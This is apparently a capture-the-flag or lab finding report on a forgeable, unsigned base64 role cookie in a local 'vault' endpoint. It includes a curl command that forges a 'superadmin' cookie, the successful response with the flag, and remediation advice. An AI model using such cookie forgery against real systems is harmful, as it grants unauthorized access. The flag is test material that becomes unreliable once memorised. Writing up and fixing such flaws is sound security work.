

# The Vault — Broken Authorization (Forgeable Role Cookie)
- Endpoint: GET /vault
- Severity: Critical
- Flag: FLAG{authz_e3bc82def67b}
## Request / payload / command
```
# the auth cookie is base64("username:role"); admin's was YWRtaW46YWRtaW4= = "admin:admin".
FORGED=$(printf '%s' 'admin:superadmin' | base64)   # YWRtaW46c3VwZXJhZG1pbg==
curl -s --cookie "auth=$FORGED" http://127.0.0.1:5000/vault
```
## What happened
`/vault` decides the caller's role from the client-side `auth` cookie, which is
just base64 of `username:role` with no signature or integrity protection. The
vault page itself hinted the role comes from that cookie. Re-encoding the cookie
with role `superadmin` and replaying it granted access (HTTP 200) and revealed the
flag. No legitimate login ever issues the `superadmin` role.
Discovery: decoded the issued cookie, forged `admin:superadmin`, succeeded on attempt 1.
## Evidence
```
HTTP/1.1 200 OK
<h1>The Vault</h1>
<p class="note">FLAG{authz_e3bc82def67b}</p>
```

## Remediation
Never trust a client-supplied role. Store role server-side in a signed/encrypted
session and authorize against that, or sign the cookie (HMAC) and verify it.
